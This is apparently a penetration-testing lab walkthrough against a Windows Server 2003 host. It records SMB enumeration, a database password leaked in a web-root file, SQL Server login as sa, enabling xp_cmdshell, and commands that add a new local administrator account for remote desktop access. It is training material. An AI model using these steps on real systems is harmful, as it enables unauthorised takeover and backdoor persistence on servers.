nmblookup -A 10.11.1.31
Looking up status of 10.11.1.31
	RALPH           <00> -         B <ACTIVE> 
	THINC           <00> - <GROUP> B <ACTIVE> 
	RALPH           <1f> -         B <ACTIVE> 
	RALPH           <03> -         B <ACTIVE> 
	RALPH           <20> -         B <ACTIVE> 
	THINC           <1e> - <GROUP> B <ACTIVE> 
	THINC           <1d> -         B <ACTIVE> 
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 

	MAC Address = 00-50-56-B8-97-A0


smbclient -L \\RALPH -I 10.11.1.31 -N
WARNING: The "syslog" option is deprecated
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Sharename       Type      Comment
	---------       ----      -------
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	ADMIN$          Disk      Remote Admin
	wwwroot         Disk      
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------

smbclient //RALPH/wwwroot -I 10.11.1.31 -N

Found this in www-root
http://10.11.1.31/login-off.asp.txt
-----> 
﻿cnn.open "PROVIDER=SQLOLEDB;DATA SOURCE=RALPH;User ID=sa;PWD=poiuytrewq;DATABASE=bankdb"   


Used sqsh to conduct queries

Show Databases:
sqsh -S 10.11.1.31 -U sa -P poiuytrewq -C "SELECT name FROM master.dbo.sysdatabases"

Login to sql command line:
sqsh -S 10.11.1.31 -U sa -P poiuytrewq

If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go

exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go

Output directory of C:\
xp_cmdshell 'dir C:\'


Add a new user and put them into Administrators Group
xp_cmdshell 'net user gary password /add'
go
xp_cmdshell 'net localgroup Administrators gary /add'
go


Now login via remote desktop if you have access
